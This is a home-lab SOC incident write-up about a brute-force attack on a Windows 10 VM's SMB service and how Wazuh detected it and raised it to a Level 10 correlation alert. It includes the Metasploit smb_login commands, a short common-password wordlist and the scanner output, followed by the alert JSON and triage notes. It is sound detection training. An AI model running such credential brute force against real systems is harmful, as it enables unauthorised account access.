



# Incident 02 — SMB Brute Force + Correlation Alert Escalation

## Summary
A wordlist-based credential brute force attack was executed against 
the exposed SMB service (port 445). Wazuh detected individual failures 
via Rule 60122 (Level 5) and automatically escalated to Rule 60204 
(Level 10) when the failure frequency threshold was crossed — simulating 
a real SOC escalation trigger.

## Environment
| Component | Value |
|---|---|
| Attacker | Kali Linux 2025.3 (192.168.152.131) |
| Target | Windows 10 MSEDGEWIN10 (192.168.152.129) |
| SIEM | Wazuh 4.14.5 (192.168.152.130) |
| Timestamp | 2026-06-30T22:36:43.092Z |

---

## Step 1 — Attack Execution

Metasploit's SMB login scanner was used to attempt authentication 
against port 445 using a custom wordlist.

**Wordlist used:**
```
password, Password1, Passw0rd!, admin123, Welcome1, 
letmein, IEUser, P@ssw0rd
```

**Commands:**
```
use auxiliary/scanner/smb/smb_login
set RHOSTS 192.168.152.129
set SMBUser IEUser
set PASS_FILE /tmp/passwords.txt
set SMBDomain WORKSTATION
run
```

**Result:**
```
[*] 192.168.152.129:445 - Starting SMB login bruteforce
[-] 192.168.152.129:445 - Failed: 'WORKSTATION\IEUser:password'
[-] 192.168.152.129:445 - Failed: 'WORKSTATION\IEUser:Password1'
[-] 192.168.152.129:445 - Failed: 'WORKSTATION\IEUser:Passw0rd!'
[-] 192.168.152.129:445 - Failed: 'WORKSTATION\IEUser:admin123'
[-] 192.168.152.129:445 - Failed: 'WORKSTATION\IEUser:Welcome1'
[-] 192.168.152.129:445 - Failed: 'WORKSTATION\IEUser:letmein'
[-] 192.168.152.129:445 - Failed: 'WORKSTATION\IEUser:IEUser'
[-] 192.168.152.129:445 - Failed: 'WORKSTATION\IEUser:P@ssw0rd'
[*] Correct credentials, but unable to login: 'WORKSTATION\IEUser:'
[*] Bruteforce completed, 0 credentials were successful.
```

**Notable finding:** The line `Correct credentials, but unable to login` 
with an empty password suggests a potential null session or blank 
password condition at the SMB layer worth investigating further.



---

## Step 2 — Detection

### Individual Alerts — Rule 60122 (Level 5)
Wazuh captured each failed authentication attempt as a separate 
Windows Security Event ID 4625.



### Correlation Alert — Rule 60204 (Level 10)
After 8 consecutive failures, Wazuh's correlation engine automatically 
fired Rule 60204, escalating severity to Level 10 and correctly 
identifying the pattern as a brute force attack.

**Correlation alert details:**
```json
{
  "rule": {
    "id": "60204",
    "level": 10,
    "description": "Multiple Windows Logon Failures",
    "frequency": 8,
    "groups": ["windows", "windows_security", "authentication_failures"],
    "mitre": {
      "technique": ["Brute Force"],
      "id": ["T1110"],
      "tactic": ["Credential Access"]
    },
    "pci_dss": ["10.2.4", "10.2.5", "11.4"],
    "hipaa": ["164.312.b"],
    "nist_800_53": ["AU.14", "AC.7", "SI.4"],
    "gdpr": ["IV_35.7.d", "IV_32.2"]
  },
  "data": {
    "win": {
      "eventdata": {
        "targetUserName": "IEUser",
        "targetDomainName": "WORKSTATION",
        "authenticationPackageName": "NTLM",
        "logonType": "3",
        "ipAddress": "192.168.152.131",
        "ipPort": "45711",
        "status": "0xc000006d",
        "subStatus": "0xc000006a"
      },
      "system": {
        "eventID": "4625",
        "severityValue": "AUDIT_FAILURE",
        "computer": "MSEDGEWIN10"
      }
    }
  },
  "timestamp": "2026-06-30T22:36:44.066+0000"
}
```



---

## Analysis

**This is the most significant detection in the lab** because it 
demonstrates SIEM correlation, not just individual alert logging.

**Key observations:**

**Attacker IP confirmed:** `192.168.152.131` (Kali) is explicitly 
captured in the correlation alert's `ipAddress` field — enabling 
immediate attacker attribution without further investigation.

**Correct MITRE mapping:** Unlike Incident 01, Rule 60204 correctly 
maps to **T1110 (Brute Force)** under Credential Access — the accurate 
classification for this attack pattern.

**Escalation logic:** Wazuh's frequency-based correlation (threshold: 
8 failures) mirrors real SOC playbook behavior where repeated failures 
trigger automatic ticket creation and analyst notification.

**Status codes:**
- `0xC000006D` — Generic authentication failure
- `0xC000006A` — Bad password (username IEUser confirmed valid)

**Compliance impact:** This alert maps to PCI DSS 11.4 (intrusion 
detection) in addition to the standard auth logging requirements — 
meaning in a real PCI-scoped environment, this would require documented 
investigation and response within defined SLA windows.

**Triage decision:** Level 10 alert with confirmed external source IP, 
multiple attempts against a single account — escalate immediately. 
Recommended actions: block source IP at firewall, investigate whether 
IEUser account was locked out, review for any successful authentications 
from same source IP before or after this window.
